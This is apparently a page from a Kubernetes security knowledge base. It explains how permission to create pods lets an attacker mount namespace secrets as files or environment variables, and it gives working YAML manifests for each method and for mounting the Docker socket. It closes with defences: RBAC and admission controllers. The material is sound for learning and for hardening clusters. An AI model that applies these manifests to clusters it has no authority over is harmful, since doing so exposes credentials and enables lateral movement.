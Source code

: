 # New container
Launching a new container in a kubernetes cluster is an extermely powerful permission. Launching a new container can be used to attack other pods in the cluster in a few different ways. If you're allowed to specify your own pod manifest, you have lots of options for how to escalate privileges and move laterally into other namespaces. Additionally, any secrets in a namespace that allows for pods to be created can be compromised as they can be mounted into the pods in cleartext using [Credential Access-> Container Service Account](../Credential_access/Container_service_account.md). 

The following manifest can be deployed into the cluster using `kubectl apply -f <manfiest_name>.yaml`
```yaml
# Mounts the secret db-user-pass into /secrets into the pod
apiVersion: v1
kind: Pod
metadata:
  name: mypod
spec:
  containers:
  - name: mypod
    image: nginx 
    volumeMounts:
    - name: foo
      mountPath: "/secrets"
      readOnly: true
  volumes:
  - name: foo
    secret:
      secretName: db-user-pass 
```

After seeing the manifest, it's obvious that the secerts are mounted in the `/secrets` directory. The secrets will be created in files with the same name of the fields within the secret.
![](../images/Pasted%20image%2020240321105551.png)

## Secrets As Environment Variables
Additionally, secrets can be mounted as environment variables that can be seen by dumping environment variables in a pod. The following manifest puts the kubernetes secrets `username` and `db-user-pass` into environment varaibles `SECRET_USERNAME` and `SECRET_PASSWORD`, respectively.
```yaml
# Mounts the secret db-user-pass -> username 
# into the SECRET_USERNAME environment variable 
# and password into SECRET_PASSWORD
apiVersion: v1
kind: Pod
metadata:
  name: secret-pod
spec:
  containers:
  - name: mycontainer
    image: nginx 
    env:
      - name: SECRET_USERNAME
        valueFrom:
          secretKeyRef:
            name: db-user-pass 
            key: username
      - name: SECRET_PASSWORD
        valueFrom:
          secretKeyRef:
            name: db-user-pass 
            key: password
  restartPolicy: Never
```

After the manifest has been applied, the environment variables are accessible inside the pod to an attacker using the `env` or `export` commands.
![](../images/Pasted%20image%2020240321105836.png)

#### Defending
# Defending
Use RBAC to ensure that pods cannot be created unless absolutely necessary. Secrets are scoped to namespaces so ensuring namespaces are properly used is important. 

The capability to create new containers from within a compromised container may arise from an exposed Docker socket mounted to the breached container, e.g.
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: mounted-docker-pod
spec:
  containers:
  - name: mycontainer
    image: nginx
    volumeMounts:
    - mountPath: /var/run/docker.sock
      name: docker-sock-volume
  volumes:
    - name: docker-sock-volume
      hostPath:
        path: /var/run/docker.sock
        type: File
```

We can prevent container images being deployed to our cluster that mount the docker socket with [Kubernetes Admission Controllers](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/)

